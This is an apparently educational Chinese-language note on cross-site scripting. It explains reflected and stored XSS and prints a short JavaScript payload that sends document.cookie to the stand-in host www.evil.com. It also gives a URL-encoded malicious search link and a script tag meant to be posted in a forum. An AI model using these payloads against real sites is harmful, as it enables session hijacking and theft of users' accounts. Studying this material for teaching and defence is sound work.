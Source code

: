 # Cross-site Scripting  跨站脚本攻击

## 基本原理
简单来说，就是通过 HTML 注入，插入恶意脚本进行攻击。


## XSS Payload
用以完成各种具体功能的恶意脚本，被称为 XSS Payload。XSS Payload 实际上就是 JS 脚本，
或者其他 Flash 等富客户端脚本。

### 用于 Cookie 劫持的 Payload
payload 脚本  `http://www.evil.com/payload.js`
```js
var img = document.createElement('img');
img.src = 'http://www.evil.com/log?' + encodeURIComponent(document.cookie);
document.body.appendChild(img);
```
只要上述代码被运行，则 `http://www.evil.com/log` 就可以获取到客户端的 cookie

#### 如果进行反射型 XSS：
假如网站 `www.foo.com` 的搜索功能有 XSS 漏洞，会把用户输入的内容直接添加到 DOM 中。  
1. 伪装以下链接并诱导用户点击：
`http://www.foo.com/search?word=%3cscript+src%3d%22http%3a%2f%2fwww.evil.com%2fpayload.js%22%3e%3c%2fscript%3e`
2. 用户点击后跳转到搜索页面，并加载 `http://www.evil.com/payload.js`
3. 如果当前用户此时在该网站为登录状态且保存了 cookie，则该 cookie 就会被 `payload.js`
发送到 `http://www.evil.com/log`

#### 如果进行存储型 XSS：
假如网站 `www.foo.com` 的论坛有 XSS 漏洞，会将用户发帖中的 HTML 标签直接添加进 DOM 从
而变得可执行。  
1. 直接把 `payload.js` 中的代码放在 `<script>` 标签里作为帖子内容的一部分发出去
```html
<script>
var img = document.createElement('img');
img.src = 'http://www.evil.com/log?' + encodeURIComponent(document.cookie);
document.body.appendChild(img);
</script>
```
2. 只要有用户进入这个帖子，上述脚本就会获取用户的 cookie 并发送


## References
* [白帽子讲Web安全](https://book.douban.com/subject/10546925/)
* <a href="https://www.owasp.org/index.php/Cross-site_Scripting_(XSS)">WASP</a>
